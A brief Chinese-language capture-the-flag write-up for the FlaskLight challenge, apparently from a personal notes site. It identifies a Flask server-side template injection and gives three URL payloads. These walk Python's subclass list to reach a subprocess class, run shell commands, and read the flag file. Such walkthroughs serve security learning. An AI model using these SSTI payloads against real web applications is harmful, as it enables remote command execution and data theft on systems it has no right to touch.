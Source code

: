 # \[CSCCTF 2019 Qual]FlaskLight

## \[CSCCTF 2019 Qual]FlaskLight

## 考点

* Flask SSTI

## wp

![](<../../.gitbook/assets/image (14) (1) (1) (1).png>)

F12，给了提示

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

题目是名字Flask，尝试一下SSTI

![](<../../.gitbook/assets/image (4) (1) (1).png>)

然后找可以利用的类

```
?search={{[].__class__.__mro__[1].__subclasses__()}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("ls",shell=True,stdout=-1).communicate()[0]}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("cat flasklight/coomme_geeeett_youur_flek",shell=True,stdout=-1).communicate()[0]}}
```

## 小结

1. 常规Flask SSTI
